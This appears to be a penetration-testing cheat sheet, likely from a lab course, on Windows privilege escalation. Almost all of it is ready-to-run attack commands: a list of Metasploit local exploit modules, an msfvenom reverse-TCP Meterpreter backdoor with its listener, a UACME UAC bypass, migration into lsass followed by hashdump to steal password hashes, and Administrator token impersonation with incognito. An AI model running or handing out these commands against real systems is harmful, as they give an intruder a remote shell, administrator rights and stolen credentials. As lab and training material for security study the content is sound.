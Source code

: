 ```bash
exploit/windows/local/bypassuac_eventvwr
exploit/windows/local/bypassuac_sdclt
exploit/windows/local/cve_2019_1458_wizardopium
exploit/windows/local/cve_2020_1054_drawiconex_lpe
exploit/windows/local/ms10_092_schelevator
exploit/windows/local/ms14_058_track_popup_menu
exploit/windows/local/ms15_051_client_copy_image
exploit/windows/local/ms16_014_wmi_recv_notif
```

### **UAC**

```bash
# UAC - UACME

msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<LOCAL_HOST_IP> LPORT=<LOCAL_PORT> -f exe > backdoor.exe

## METASPLOIT - Listening
setg RHOSTS <TARGET_IP>
setg RHOST <TARGET_IP>

use exploit/multi/handler 
set payload windows/x64/meterpreter/reverse_tcp
set LHOST <LOCAL_HOST_IP>
set LPORT <LOCAL_PORT>

## Meterpreter (Unprivileged session)
cd C:\\
mkdir Temp
cd Temp
upload /root/backdoor.exe
upload /root/Desktop/tools/UACME/Akagi64.exe
shell
Akagi64.exe 23 C:\Temp\backdoor.exe

akagi32.exe [Key] [Param]
akagi64.exe [Key] [Param]

## Elevated Meterpreter Received on the listening session
ps -S lsass.exe
migrate <lsass_PID>
hashdump
```

### **Access Token**

```bash
# ACCESS TOKEN IMPERSONATION

## METASPLOIT - Meterpreter (Unprivileged session)
pgrep explorer
migrate <explorer_PID>
getuid
getprivs

load incognito
list_tokens -u
impersonate_token "ATTACKDEFENSE\Administrator"
getuid
getprivs # Access Denied
pgrep explorer
migrate <explorer_PID>
getprivs
```